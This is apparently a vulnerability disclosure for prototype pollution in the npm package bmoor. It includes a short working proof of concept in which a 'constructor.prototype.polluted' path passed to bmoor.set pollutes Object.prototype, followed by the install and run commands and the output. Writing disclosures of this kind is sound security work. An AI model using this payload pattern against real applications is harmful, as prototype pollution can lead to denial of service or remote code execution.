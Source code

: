 # Description

`bmoor` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const bmoor = require('bmoor');
var obj = {}
console.log("Before : " + {}.polluted);
bmoor.set(obj,"constructor.prototype.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i bmoor # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
